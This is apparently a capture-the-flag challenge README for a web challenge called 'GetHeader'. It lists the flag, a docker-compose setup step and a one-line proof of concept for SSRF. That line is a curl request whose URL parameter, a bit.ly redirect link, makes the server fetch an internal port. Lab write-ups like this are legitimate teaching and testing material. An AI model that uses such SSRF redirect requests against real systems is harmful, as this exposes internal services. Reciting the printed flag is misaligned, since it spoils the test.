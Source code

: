 # GetHeader

> Difficulty: Medium </br>
> Category: Web </br>
> FLAG: **YASCON{302-Found-39144a096ac080bad03ca1e67d08b1cb}** </br>

## Setup

```bash
0x02 $ docker-compose up -d
```

## Challenge PoC

> SSRF --> Access flag from internal port 8080

```bash
$ curl http://127.0.0.1 -d "url=https://bit.ly/3nIHn3C" # FLAG!!!
```
<!-- v1dhun 12/10/2020 -->